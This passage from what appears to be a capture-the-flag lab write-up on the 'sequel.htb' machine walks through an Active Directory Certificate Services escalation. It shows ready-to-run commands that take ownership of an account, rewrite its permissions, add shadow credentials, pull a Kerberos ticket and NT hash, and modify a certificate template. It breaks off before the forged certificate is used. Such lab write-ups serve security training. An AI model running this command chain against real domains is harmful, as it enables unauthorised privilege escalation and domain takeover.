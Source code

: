 ## Step 6: Advanced AD Certificate Services Attack

At this point, we want to escalate to Domain Admin or a similarly privileged account. Standard enumerations using Bloodhound reveals `ryan` has `WriteOwner` to the `ca_svc` account, this is interesting AD CS (Certificate Services) privileges. Alternatively, you might find the domain running an Enterprise Certificate Authority with misconfigured templates—common in advanced AD exploitation.

![](Pasted%20image%2020250221125535.png)

![](Pasted%20image%2020250221125558.png)

### 6.1 Changing Ownership and DACL

Using Impacket scripts or specialized Python tools (e.g., `owneredit.py`, `dacledit.py`, `pywhisker.py`), we can manipulate Active Directory object attributes. The gist:

1. **Take ownership** of a target account (e.g., `ca_svc`):
   ```bash
   owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb/ryan':'WqSZAF6CysDQbGb3'
   ```

2. **Edit DACL** permissions (grant `ryan` full control):
   ```bash
   dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan':'WqSZAF6CysDQbGb3'
   ```

3. **Add KeyCredential to the target** using something like `pywhisker.py`, enabling a certificate-based authentication for `ca_svc`:
   ```bash
   pywhisker.py -d "sequel.htb" -u "ryan" -p "WqSZAF6CysDQbGb3" \
       --target "ca_svc" --action "add" --filename test_file --export PEM
   ```

4. **Obtain TGT via PKINIT**:
   ```bash
   python3 gettgtpkinit.py -cert-pem test_file_cert.pem \
       -key-pem test_file_priv.pem sequel.htb/ca_svc ca_svc.ccache
   ```

5. **Convert the TGT to an NT Hash**:
   ```bash
   python3 getnthash.py -key <AS-REP_Encryption_Key> sequel.htb/ca_svc
   # => Recovered NT Hash
   ```

### 6.2 Forging a Domain Admin Certificate

With tools like **Certipy**, we examine certificate templates and find one that grants high privileges (or that we can modify). We update the template:

```bash
certipy-ad template -u ca_svc@sequel.htb -target sequel.htb \
-template DunderMifflinAuthentication \
-hashes <hash>:<hash> \
-save-old
```
